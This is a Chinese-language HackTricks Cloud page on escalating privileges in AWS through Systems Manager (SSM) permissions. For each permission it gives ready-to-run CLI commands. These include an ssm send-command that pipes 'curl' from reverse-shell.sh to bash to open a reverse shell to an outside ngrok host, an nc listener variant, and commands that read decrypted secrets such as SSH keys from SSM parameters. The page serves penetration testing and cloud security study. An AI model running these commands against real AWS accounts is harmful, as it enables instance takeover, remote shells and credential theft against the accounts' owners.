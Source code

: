 # AWS - SSM权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## SSM

有关SSM的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

拥有**`ssm:SendCommand`**权限的攻击者可以在运行Amazon SSM代理的实例中**执行命令**，并**妥协运行其中的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
在已经遭到入侵的 EC2 实例内部提升权限时，您可以使用以下命令在本地捕获反向 shell：
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响：** 直接提升权限至运行中带有运行SSM代理的EC2 IAM角色。

### `ssm:StartSession`

拥有**`ssm:StartSession`**权限的攻击者可以在运行Amazon SSM代理的实例中**启动类似SSH的会话**，并**危害其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
要启动会话，您需要安装 **SessionManagerPlugin**：[https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在影响：** 直接提升权限以访问运行中带有运行 SSM 代理的 EC2 IAM 角色。

#### ECS 提权

当 **ECS 任务** 使用 **`ExecuteCommand` 启用** 运行时，具有足够权限的用户可以使用 `ecs execute-command` 在容器内部执行命令。\
根据[**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在启动“_exec_”命令的设备和带有 SSM 会话管理器的目标容器之间创建安全通道来完成的（必须安装 SSM 会话管理器插件）。\
因此，具有 `ssm:StartSession` 权限的用户将能够通过运行以下命令在启用该选项的 ECS 任务内部获取 shell：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在影响:** 直接提升至运行具有启用`ExecuteCommand`的`ECS`IAM角色的任务。

### `ssm:ResumeSession`

拥有权限**`ssm:ResumeSession`**的攻击者可以在运行Amazon SSM代理的实例中重新**启动类似SSH的会话**，当SSM会话状态**断开**时，并**危及其中运行的IAM角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响:** 直接提升权限至运行实例附加的 EC2 IAM 角色，当 SSM 代理运行并断开会话时。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

具有上述权限的攻击者将能够列出 **SSM 参数** 并以明文形式**读取**。在这些参数中，您经常可以找到诸如 SSH 密钥或 API 密钥等**敏感信息**。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响：** 查找参数中的敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的**命令**，并希望在其中找到**敏感信息**。
```
aws ssm list-commands
```
**潜在影响：** 查找命令行中的敏感信息。

### `ssm:GetCommandInvocation`，(`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的**命令**并**读取生成的输出**，希望能在其中找到**敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响:** 在命令行输出中查找敏感信息。

### Codebuild

您还可以使用SSM进入正在构建的codebuild项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>从零开始学习AWS黑客技术</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
